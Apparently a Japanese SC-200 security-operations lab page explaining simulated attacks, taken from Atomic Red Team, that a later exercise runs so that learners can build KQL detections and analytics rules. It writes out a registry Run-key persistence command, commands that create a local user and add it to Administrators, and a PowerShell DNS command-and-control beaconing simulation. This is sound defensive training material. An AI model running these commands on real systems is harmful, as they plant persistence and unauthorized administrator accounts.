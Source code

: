 # モジュール 7 - ラボ 1 - 演習 4 - 検出モデリングを理解する

## ラボ シナリオ

![Lab overview.](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex4.png)

### タスク 1: 攻撃を理解する

**重要: この演習では、アクションを実行しません。**  これらの手順は、次の演習で実行する攻撃を説明することを目的としています。このページを慎重にお読みください。

攻撃パターンはオープンソースプロジェクトに基づいています： https：//github.com/redcanaryco/atomic-red-team

**注:** 一部の設定は、ラボの目的のためだけに、より短い時間枠でトリガーされます。

#### 攻撃　1　-　レジストリキーの追加による永続性。

この攻撃は、コマンドプロンプトから実行されます。

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 攻撃 2 - ユーザーが特権を追加および昇格

攻撃者は新しいユーザーを追加し、新しいユーザーを Administrators グループに昇格させます。  これにより、攻撃者は特権のある別のアカウントでログオンできます。

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

### 攻撃 3 - ドメイン ネーム サービス / コマンド＆コントロール 

この攻撃は、コマンド＆コントロール (C2) 通信をシミュレートします。

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### タスク 2: 検出モデリングを理解します。

このラボで使用されている攻撃検出構成サイクルは、2つの特定のデータソースのみに焦点を当てている場合でも、すべてのデータソースを表します。

検出を構築するには、最初に KQL ステートメントの構築から始めます。  ホストを攻撃するため、KQL ステートメントの作成を開始するための代表的なデータがあります。

次のラボでは、Defender for Endpoint がインストールされている Windows ホストと Sysmon がインストールされている Windows で同じ攻撃を実行します。  検出を構築すると、それぞれのデータ正規化の違いがわかります。

KQL ステートメントを取得したら、分析ルールを作成します。

ルールがトリガーされてアラートとインシデントが作成されたら、調査を行って、セキュリティ オペレーション アナリストの調査に役立つフィールドを提供しているかどうかを判断します。

次に、分析ルールにその他の変更を加えます。

# 演習 5 に進みます。
